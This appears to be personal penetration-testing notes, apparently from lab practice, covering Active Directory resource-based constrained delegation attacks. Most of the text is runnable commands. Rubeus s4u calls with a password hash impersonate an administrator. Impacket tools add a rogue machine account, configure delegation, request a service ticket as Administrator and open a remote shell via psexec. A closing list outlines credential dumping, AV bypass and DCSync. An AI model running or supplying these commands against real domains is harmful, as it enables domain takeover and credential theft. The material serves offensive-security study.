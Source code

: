 ```bash
## dir \\client1\c$, access denied. dir \\client1.offensive.local\c$, access denied. 
.\rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/client1.offensive.local /ptt

## failed on offensive-ad lab
## dir \\client1\c$, access denied. dir \\client1.offensive.local\c$, access denied. 
.\rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/client1.offensive.local /altservice:krbtgt,host,http,winrm /domain:offensive.local /ptt

# exploit via impacket-tools
## create machine account/computer object
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.120.181 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'

## check on target if the account added
get-adcomputer attack 

## Set/Configuring Resource-based Constrained Delegation
## impacket-tool rbcd.py need to verify; use: https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py
python3 rbcd.py -dc-ip 192.168.120.181 -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone

## verify msds-allowedtoactonbehalfofotheridentity on target.
Get-adcomputer resourcedc -properties msds-allowedtoactonbehalfofotheridentity |select -expand msds-allowedtoactonbehalfofotheridentity

## impersonate administrator, and get st.
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.120.181

## rce to target via pkexec; add hosts first.
export KRB5CCNAME=./Administrator.ccache
sudo sh -c 'echo "192.168.120.181 resourcedc.resourced.local" >> /etc/hosts' 
echo "192.168.120.181 resourcedc.resourced.local" | sudo tee -a /etc/hosts

impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.120.181
```


### dump creds
+ dump all the hashes in memory and locally if compromise some local admin account(using AsRepRoast, Password Spraying, Kerberoast, Responder including relaying, local privesc).
+ dump creds with mimikatz
+ bypass av
+ dump hash from lsass sam registry
+ dump hash on dc, dcsync/NTDS.DIT; [dump域内用户hash](https://xz.aliyun.com/t/2527)
+ read more [credential access & dumping](https://www.ired.team/offensive-security/credential-access-and-credential-dumping)
+ hacktricks [stealing-credentials](https://book.hacktricks.xyz/windows-hardening/stealing-credentials)
+ pentestlab [dump domain password hash](https://pentestlab.blog/tag/diskshadow/)
